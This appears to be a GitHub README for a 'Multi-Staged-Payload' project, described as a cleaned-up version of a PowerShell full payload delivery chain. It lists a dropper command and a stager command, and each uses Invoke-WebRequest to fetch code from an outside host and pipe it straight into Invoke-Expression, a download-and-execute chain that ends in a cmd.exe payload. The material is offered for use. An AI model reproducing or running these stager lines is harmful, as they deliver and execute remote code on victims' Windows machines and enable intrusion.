 # Multi-Staged-Payload

All credits to @kmkz_security

A cleaner version of https://github.com/kmkz/exploit/blob/master/Full-payload-delivery-chain.ps1


Changes:

psh-cmd payload:
COMPSEC -> C:\Windows\System32\cmd.exe 

Create_Dropper.ps1:
$Payload = "$ProxyAware;iwr http://www.money-corp-xyz.com/stager -UseBasicParsing -UserAgent '$UA'|iex"

Stager:
$ProxyAware;iwr http://www.money-corp-xyz.com/psh-cmd.load -UseBasicParsing -UserAgent $UA|iex


